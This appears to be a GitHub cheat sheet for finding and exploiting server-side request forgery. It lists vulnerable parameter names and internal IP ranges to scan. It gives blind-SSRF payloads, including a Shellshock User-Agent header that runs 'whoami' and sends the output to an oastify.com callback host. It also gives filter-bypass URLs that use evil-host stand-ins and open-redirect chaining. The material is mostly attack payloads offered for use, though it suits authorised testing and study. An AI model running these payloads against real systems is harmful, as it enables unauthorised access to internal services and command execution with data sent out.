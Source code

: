 ## Index:

1. [SSRF Vulnerability Overview](#ssrf)
2. [Common SSRF Endpoints](#common-ssrf-endpoints)
3. [Tips](#tips)
   - [Port and Path Exploitation](#port-and-path-exploitation)
   - [File Uploads](#file-uploads)
   - [Internal Private IPv4 Networks](#internal-private-ipv4-networks)
4. [Common Method (API Parameter)](#common-method-api-parameter)
5. [Blind Method](#blind-method)
   - [Using Burp Collaborator in Referer Header](#using-burp-collaborator-in-referer-header)
   - [Shellshock Exploitation via SSRF](#shellshock-exploitation-via-ssrf)
6. [Bypassing Common SSRF Defenses](#bypassing-common-ssrf-defenses)
   - [SSRF with Blacklist-Based Input Filters](#ssrf-with-blacklist-based-input-filters)
   - [SSRF with Whitelist-Based Input Filters](#ssrf-with-whitelist-based-input-filters)
     - [Embedding Credentials in a URL](#embedding-credentials-in-a-url)
     - [Using URL Fragment for Bypass](#using-url-fragment-for-bypass)
     - [DNS Naming Hierarchy Bypass](#dns-naming-hierarchy-bypass)
   - [Bypassing SSRF Filters via Open Redirection](#bypassing-ssrf-filters-via-open-redirection)

## SSRF
This vulnerability helps attacker to send request to back-end systems. To learn >> https://www.hackerone.com/application-security/how-server-side-request-forgery-ssrf

## Common SSRF Endpoints
```
dest=
path=
window=
next=
site=
reference=
data=
load=
html=
validate=
page=
return=
callback=
domain=
feed=
view=
dir=
request-baskets=
dict=
pdf=
file=
imageuri=
url=
key=
.json=
oauth=
redirect=
api=
dashboard=
config.=
```
## Tips

### Port and Path Exploitation
1. Try with port number, path.

### File Uploads
2. File uploads: instead of uploading a file, try sending a URL and see if it downloads the content of the URL. Example: https://hackerone.com/reports/713

### Internal Private IPv4 Networks
3. If you do want to look for internal services, here’s a list of private IPv4 networks that you could scan for services:

    - 10.0.0.0/8
    - 127.0.0.1/32
    - 172.16.0.0/12
    - 192.168.0.0/16

## Common Method (API Parameter)
```txt
http://localhost/
http://127.0.0.1/
```
## Blind Method
#### Just place burpcollaborator server in referer header
```txt
Referer: http://burpcollaborator.net
```
#### Shellshock exploitation via SSRF
```txt
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).3kobqoj8uv6qbwwlkaf5cvzr1i79v0jp.oastify.com >> Change Uger-Agent info
Referer: http://192.168.0.$1$:8080 >> Bruteforce the ip
```
## Bypassing common SSRF defenses
_____________________________________
### SSRF with blacklist-based input filters
```txt
http://127.1
http://2130706433
http://017700000001
http://127.0.0.1:21/?%0A >> You can change port number if needed.
http://[::]:80/ 
http://spoofed.burpcollaborator.net
```
### SSRF with whitelist-based input filters
#### You can embed credentials in a URL before the hostname, using the @ character. For example:
```txt
    https://expected-host:fakepassword@evil-host
    https://expected-host:fakepassword@burpcollaborator.net
```
#### You can use the # character to indicate a URL fragment. For example:
```txt
    https://evil-host#@expected-host
    https://burpcollaborator.net#@google.com
```
Double URL-encode # to %2523.
#### You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:
```txt
    https://expected-host.evil-host
    https://google.com.burpcollaborator.net
```
### Bypassing SSRF filters via open redirection
#### For example, the application contains an open redirection vulnerability in which the following URL (http://evil-user.net):
```txt
/product/nextProduct?currentProductId=6&path=http://evil-user.net
```
#### You can leverage the open redirection vulnerability to bypass the URL filter, and exploit the SSRF vulnerability as follows: 
```txt
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```
